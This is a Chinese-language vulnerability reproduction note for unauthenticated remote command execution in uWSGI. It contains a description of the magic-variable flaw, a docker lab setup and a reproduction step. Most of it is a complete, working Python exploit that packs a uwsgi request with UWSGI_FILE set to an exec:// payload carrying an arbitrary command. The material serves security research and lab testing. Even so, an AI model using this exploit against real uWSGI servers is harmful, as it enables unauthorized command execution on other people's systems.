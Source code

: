 # uWSGI 未授权访问漏洞

## 漏洞描述

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言，通常被用于运行Python WEB应用。uwsgi除了是应用容器的名称之外，它和Fastcgi之类的一样，也是前端server与后端应用容器之间的一个交流标准。目前nginx，apache也支持uwsgi协议进行代理转发请求。

uWSGI支持通过魔术变量（Magic Variables）的方式动态配置后端Web应用。如果其端口暴露在外，攻击者可以构造uwsgi数据包，并指定魔术变量`UWSGI_FILE`，运用`exec://`协议执行任意命令。

参考链接：

- https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi-rce-zh.md
- https://xz.aliyun.com/t/3512
- https://uwsgi-docs.readthedocs.io/en/latest/Vars.html

## 环境搭建

执行如下命令启动nginx+uwsgi环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看一个Web应用，其uwsgi暴露在8000端口。

## 漏洞复现

使用[poc.py](https://github.com/vulhub/vulhub/blob/master/uwsgi/unacc/poc.py)，执行命令`python poc.py -u your-ip:8000 -c "touch /tmp/awesome_poc"`：

![image-20220302163756128](./images/202203021637238.png)

执行`docker-compose exec web bash`进入容器，可见`/tmp/awesome_poc`已经成功执行：

![image-20220302163833950](./images/202203021638121.png)

## 漏洞POC

```python
#!/usr/bin/python
# coding: utf-8
######################
# Uwsgi RCE Exploit
######################
# Author: wofeiwo@80sec.com
# Created: 2017-7-18
# Last modified: 2018-1-30
# Note: Just for research purpose

import sys
import socket
import argparse
import requests

def sz(x):
    s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
    s = bytes.fromhex(s) if sys.version_info[0] == 3 else s.decode('hex')
    return s[::-1]


def pack_uwsgi_vars(var):
    pk = b''
    for k, v in var.items() if hasattr(var, 'items') else var:
        pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
    result = b'\x00' + sz(pk) + b'\x00' + pk
    return result


def parse_addr(addr, default_port=None):
    port = default_port
    if isinstance(addr, str):
        if addr.isdigit():
            addr, port = '', addr
        elif ':' in addr:
            addr, _, port = addr.partition(':')
    elif isinstance(addr, (list, tuple, set)):
        addr, port = addr
    port = int(port) if port else port
    return (addr or '127.0.0.1', port)


def get_host_from_url(url):
    if '//' in url:
        url = url.split('//', 1)[1]
    host, _, url = url.partition('/')
    return (host, '/' + url)


def fetch_data(uri, payload=None, body=None):
    if 'http' not in uri:
        uri = 'http://' + uri
    s = requests.Session()
    # s.headers['UWSGI_FILE'] = payload
    if body:
        import urlparse
        body_d = dict(urlparse.parse_qsl(urlparse.urlsplit(body).path))
        d = s.post(uri, data=body_d)
    else:
        d = s.get(uri)

    return {
        'code': d.status_code,
        'text': d.text,
        'header': d.headers
    }


def ask_uwsgi(addr_and_port, mode, var, body=''):
    if mode == 'tcp':
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(parse_addr(addr_and_port))
    elif mode == 'unix':
        s = socket.socket(socket.AF_UNIX)
        s.connect(addr_and_port)
    s.send(pack_uwsgi_vars(var) + body.encode('utf8'))
    response = []
    # Actually we dont need the response, it will block if we run any commands.
    # So I comment all the receiving stuff. 
    # while 1:
    #     data = s.recv(4096)
    #     if not data:
    #         break
    #     response.append(data)
    s.close()
    return b''.join(response).decode('utf8')


def curl(mode, addr_and_port, payload, target_url):
    host, uri = get_host_from_url(target_url)
    path, _, qs = uri.partition('?')
    if mode == 'http':
        return fetch_data(addr_and_port+uri, payload)
    elif mode == 'tcp':
        host = host or parse_addr(addr_and_port)[0]
    else:
        host = addr_and_port
    var = {
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'REQUEST_METHOD': 'GET',
        'PATH_INFO': path,
        'REQUEST_URI': uri,
        'QUERY_STRING': qs,
        'SERVER_NAME': host,
        'HTTP_HOST': host,
        'UWSGI_FILE': payload,
        'SCRIPT_NAME': target_url
    }
    return ask_uwsgi(addr_and_port, mode, var)


def main(*args):
    desc = """
    This is a uwsgi client & RCE exploit.
    Last modifid at 2018-01-30 by wofeiwo@80sec.com
    """
    elog = "Example：uwsgi_exp.py -u 1.2.3.4:5000 -c \"echo 111>/tmp/abc\""
    
    parser = argparse.ArgumentParser(description=desc, epilog=elog)

    parser.add_argument('-m', '--mode', nargs='?', default='tcp',
                        help='Uwsgi mode: 1. http 2. tcp 3. unix. The default is tcp.',
                        dest='mode', choices=['http', 'tcp', 'unix'])

    parser.add_argument('-u', '--uwsgi', nargs='?', required=True,
                        help='Uwsgi server: 1.2.3.4:5000 or /tmp/uwsgi.sock',
                        dest='uwsgi_addr')

    parser.add_argument('-c', '--command', nargs='?', required=True,
                        help='Command: The exploit command you want to execute, must have this.',
                        dest='command')

    if len(sys.argv) < 2:
        parser.print_help()
        return
    args = parser.parse_args()
    if args.mode.lower() == "http":
        print("[-]Currently only tcp/unix method is supported in RCE exploit.")
        return
    payload = 'exec://' + args.command + "; echo test" # must have someting in output or the uWSGI crashs.
    print("[*]Sending payload.")
    print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))

if __name__ == '__main__':
    main()
```

